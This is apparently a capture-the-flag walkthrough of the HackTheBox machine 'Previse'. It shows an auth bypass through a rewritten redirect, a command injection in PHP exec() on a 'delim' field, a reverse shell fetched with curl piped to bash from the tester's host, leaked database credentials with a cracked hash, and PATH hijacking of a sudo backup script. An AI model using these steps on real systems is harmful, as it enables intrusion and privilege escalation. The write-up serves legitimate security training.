 # Previse

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.185
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 11:41 EDT
Nmap scan report for 10.129.95.185
Host is up (0.0072s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### File Storage

Port 80 had a login page to some kind of file manager:

<figure><img src="../../../.gitbook/assets/image (2627).png" alt=""><figcaption></figcaption></figure>

This wasn't vulnerable to SQL Injection or anything. I tried visiting `index.php`, but was redirected back to the `login.php`. When the traffic is inspectedi nBurp, I noticed that `index.php` was still loaded.

<figure><img src="../../../.gitbook/assets/image (1087).png" alt=""><figcaption></figcaption></figure>

This means that we can view the pages without logging in since they are loaded before we are redirected. When I used Burp's Match and Replace function to change the 302 Found to 200 OK, I could load the page normally:

<figure><img src="../../../.gitbook/assets/image (2176).png" alt=""><figcaption></figcaption></figure>

Within the Accounts tab, we can add a user.

<figure><img src="../../../.gitbook/assets/image (2714).png" alt=""><figcaption></figcaption></figure>

So I created one and we can remove the Burpsuite filtering. Within the Files tab, there's a backup of the entire site uploaded.

<figure><img src="../../../.gitbook/assets/image (4042).png" alt=""><figcaption></figcaption></figure>

We can download this file and analyse the source code back on my machine. Here's the `logs.php`.

```php
<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";

if(file_exists($filepath)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($filepath));
    ob_clean(); // Discard data in the output buffer
    flush(); // Flush system headers
    readfile($filepath);
    die();
} else {
    http_response_code(404);
    die();
}
?> 
```

It seems that there's an `exec` function used, and the `delim` parameter is not sanitised when being passed in, thus creating a command injection vulnerability. We can send this request to confirm we have RCE.

```http
POST /logs.php HTTP/1.1
Host: 10.129.95.185
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://10.129.95.185
Connection: close
Referer: http://10.129.95.185/file_logs.php
Cookie: PHPSESSID=k0vg9j4gs59e7q9qokpv6rhugi
Upgrade-Insecure-Requests: 1


delim=comma; ping -c 1 10.10.14.13 
```

<figure><img src="../../../.gitbook/assets/image (2586).png" alt=""><figcaption></figcaption></figure>

Now, we can get a reverse shell by using `curl http://10.10.14.13/shell.sh|bash`.&#x20;

<figure><img src="../../../.gitbook/assets/image (394).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### M4lwhere Creds

Within the `/var/www/html` file, there's a `config.php` file.

```
www-data@previse:/var/www/html$ cat config.php 
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

We can login to the `mysql` database using these credentials. Within it, we can find the credentials for the file system.

```
mysql> select * from accounts\G
*************************** 1. row ***************************
        id: 1
  username: m4lwhere
  password: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
created_at: 2021-05-27 18:18:36
*************************** 2. row ***************************
        id: 2
  username: test123
  password: $1$🧂llol$sP8qi2I.K6urjPuzdGizl1
created_at: 2023-05-06 09:26:49
2 rows in set (0.00 sec)
```

Using `hashcat`, we can crack this easily.&#x20;

```
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
```

We can then `su` to `m4lwhere`.

<figure><img src="../../../.gitbook/assets/image (1885).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges

We can then enumerate `sudo` privileges.

```
m4lwhere@previse:/var/www/html$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Here's the script:

```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

This script was running `gzip` without the full path, so we can do some PATH injection. Create a script called `gzip` that makes `/bin/bash` an SUID binary via `chmod u+s /bin/bash`, then make it executable.&#x20;

Afterwards, change the PATH variable to include `/tmp` first and run the script as root.

```
m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH
m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh
```

It's easy to get a `root` shell afterwards.&#x20;

<figure><img src="../../../.gitbook/assets/image (1086).png" alt=""><figcaption></figcaption></figure>
